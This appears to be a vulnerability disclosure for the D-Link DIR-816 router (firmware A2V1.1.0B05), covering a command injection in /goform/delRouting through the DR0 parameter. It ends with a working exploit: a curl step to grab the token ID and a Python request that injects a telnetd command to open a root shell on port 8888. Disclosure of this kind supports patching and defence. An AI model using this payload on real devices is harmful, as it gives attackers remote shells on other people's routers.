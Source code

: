 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/delRouting` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/delRouting`. Attackers can control `Var` by setting the `DR0`. The program then splits `Var` into three parts, `v11`, `v12`, and `v13`, and passes them to function `sub_428FF0`.

![image-20250310195641097](./img/3.png)

In the function `sub_428FF0`, the three parameters are concatenated into the command `route del`, and finally called by `doSystem`.

![image-20250310200032609](./img/4.png)

Anyway, system command was called, and its parameter `v9` was passed by `Var`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DR0`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/delRouting'

data = {
    'tokenid': tokenid,
    'DR0': a`telnetd -l /bin/sh -p 8888 -b 0.0.0.0` b c
}

r = requests.post(url, data)
```
![image-20250310200032](./img/5.png)
